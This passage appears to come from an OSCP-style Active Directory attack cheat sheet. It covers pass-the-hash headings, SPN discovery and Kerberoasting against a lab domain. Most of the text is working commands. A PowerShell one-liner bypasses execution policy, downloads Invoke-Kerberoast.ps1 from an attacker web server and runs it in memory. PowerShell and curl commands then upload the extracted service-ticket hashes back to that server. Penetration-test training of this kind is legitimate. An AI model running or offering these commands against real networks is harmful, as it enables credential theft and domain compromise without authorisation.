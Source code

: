 <details><summary><h2>3.3. Using  pth-winexe</h2></summary></details>

<details><summary><h2>3.4. Using mimikatz - sekurlsa::pth + PsExec</h2></summary></details>

# 4. Service Account Attack

## 4.1. Discover SPNs

```cmd
C:\Users\mike>setspn -Q */*
Checking domain DC=lab,DC=vx
CN=ADFS Service Account,CN=Users,DC=lab,DC=vx
        host/fs.lab.vx
CN=MSSQL Service Account,OU=OSCP Lab,DC=lab,DC=vx
        MSSQLSvc/SVR.lab.vx:1433
        MSSQLSvc/SVR.lab.vx
⋮
```

## 4.2. Kerberoasting

### 4.2.1. Extract service ticket hashes

#### Option 1: Extract on Windows target using Invoke-Kerberoast script from powershell-empire

**On Kali**: Prepare web server for `Invoke-Kerberoast.ps1` download

Prepare files to web server root

```sh
cp /usr/share/powershell-empire/empire/server/data/module_source/credentials/Invoke-Kerberoast.ps1 /var/www/html
```

**On Target**: Download and run `Invoke-Kerberoast.ps1`

```cmd
powershell.exe -NoProfile -ExecutionPolicy Bypass "Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://kali.vx/Invoke-Kerberoast.ps1'); Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII tgs.hash"
```

Upload the hash to Kali (Apache2 is already running with uploads folder and `upload.php` configured)

|   |   |
|---|---|
|PowerShell|`powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).UploadFile('http://kali.vx/upload.php','tgs.hash')`|
|cURL|`curl -H 'Content-Type:multipart/form-data' -X POST -F file=@"tgs.hash" -v http://kali.vx/upload.php`|

Move hash file to working folder: `mv /var/www/html/uploads/tgs.hash .`
